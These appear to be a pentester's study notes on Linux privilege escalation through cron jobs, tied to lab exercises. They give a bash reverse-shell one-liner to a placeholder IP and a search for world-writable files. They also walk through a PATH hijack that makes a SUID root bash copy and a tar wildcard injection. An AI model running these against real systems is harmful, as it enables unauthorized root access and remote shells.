 **Netcat** `bash -i >& /dev/tcp/[IP]/[PORT] 0>&1`

### File Permissions
Poor file permission as if we have access to write the file specified in the crontab then we can get the shell.

#### Find World writable files
```bash
find / -user root -perm -002 -type f -not -path "/proc/*"  2>/dev/null
```


### PATH var exploitation
For this one in crontab if the absolute path is not given of the file to be execute ex: 
`* * * * * root overwrite.sh`
so we can create overwrite.sh in home dir and re set the PATH var to home by which now cron will execute our overwrite.sh

***Crontab has PATH variable set so you cant overwrite it anyhow. So if there is any relative path then you hae to check the corntab PATH specified directories for shell placement***
```bash
SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```
```bash
#!/bin/bash
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
```
*x.sh*

write the code in /home/usr and then we can go ahead


### Wildcards
When a wildcard `(*)` is provided to a command as part of an argument, the shell will first perform filename expansion 
This replaces the wildcard with a space-seperated list 	of the file and dir names in the current dir.
- If you see `/bin/sh -c cd /home/tony && tar -zcf /var/backups/tony.tgz \*` wildcard like this then go for the [Tar cron 2 root](https://int0x33.medium.com/day-67-tar-cron-2-root-abusing-wildcards-for-tar-argument-injection-in-root-cronjob-nix-c65c59a77f5e)
[Lab for tar wildcard escalation](https://attackdefense.com/challengedetails?cid=74)
[tryhackme box](https://tryhackme.com/room/linuxprivesc)

**Exploiotation**
1. Make a malicious executable.
	`echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh`
2. `touch /home/user/--checkpoint=1`
3. `touch /home/user/--checkpoint-action=exec=sh\ runme.sh`
4. Now run this **only** `/tmp/bash -p`.
 
***Note:*** We dont need to specify the path because of the crontab already decided the path of the directory where it will look for as /home/user is defined so this is where we making our file.
